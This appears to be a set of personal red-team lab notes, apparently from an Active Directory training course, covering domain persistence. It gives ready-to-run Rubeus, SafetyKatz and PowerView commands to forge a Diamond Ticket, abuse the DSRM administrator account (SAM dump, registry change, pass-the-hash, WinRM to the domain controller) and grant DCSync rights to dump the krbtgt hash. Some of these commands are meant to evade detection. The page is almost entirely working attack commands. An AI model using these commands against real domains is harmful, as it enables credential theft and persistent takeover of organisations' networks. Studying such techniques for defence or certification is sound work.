 {% tab title="DT" %}
TGT tampering → Same as GT, but stealthier.

{% code overflow="wrap" %}
```powershell
# Forge TGT using explicit creds
Loader.exe -path Rubeus.exe -args "diamond /krbkey:<krbtgt-key> /user:student337 /password:<password> /enctype:aes /ticketuser:Administrator /ticketuserid:500 /groups:512 /domain:<domain> /dc:<dc-FQDN> /createnetonly:C:\Windows\System32\cmd.exe /show /ptt"

# Forge TGT using a cached ticket
Loader.exe -path Rubeus.exe -args "diamond /krbkey:<krbtgt-key> /tgtdeleg /enctype:aes /ticketuser:Administrator /ticketuserid:500 /groups:512 /domain:<domain> /dc:<dc-FQDN> /createnetonly:C:\Windows\System32\cmd.exe /show /ptt"
```
{% endcode %}
{% endtab %}

{% tab title="DSRM" %}
Built-in local Admin account → can't interactively access the DC by default.

{% code overflow="wrap" %}
```powershell
# Launch a new process as the DA
Loader.exe -path Rubeus.exe -args asktgt /user:<DA> /aes256:<key> /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt

# Extract the DSRM password hash
Loader.exe -path SafetyKatz.exe -args "token::elevate" "lsadump::sam" "exit"

# Flip the registry key
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f

# PtH with DSRM credentials (/domain:<hostname-of-the-DC>)
Loader.exe -path SafetyKatz.exe -args "sekurlsa::pth /domain:dcorp-dc /user:administrator /ntlm:<ntlm> /run:powershell.exe" "exit"

# Add the DC as a trusted host (required to access it with RC4 via WinRM)
Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1

# Access the DC via WinRM using the NT hash
Enter-PSSession -cn 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```
{% endcode %}
{% endtab %}

{% tab title="DCSync Rights" %}
Add DCSync rights to a low-priv account:

{% code overflow="wrap" %}
```powershell
# Launch a new process as the DA
Loader.exe -path Rubeus.exe -args asktgt /user:<DA> /aes256:<key> /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt

# Launch InviShell (as DA on the new session)
InviShell\RunWithPathAsAdmin.bat

# Assign DCSync rights to the target user (PowerView) (as DA on the new session)
Add-domainobjectacl -targetidentity 'dc=dollarcorp,dc=moneycorp,dc=local' -principalidentity student337 -rights DCSync -principaldomain dollarcorp.moneycorp.local -targetdomain dollarcorp.moneycorp.local

# Perform DCSync (as low-priv user)
Loader.exe -path SafetyKatz.exe -args "lsadump:evasive-dcsync /user:dcorp\krbtgt" "exit"
```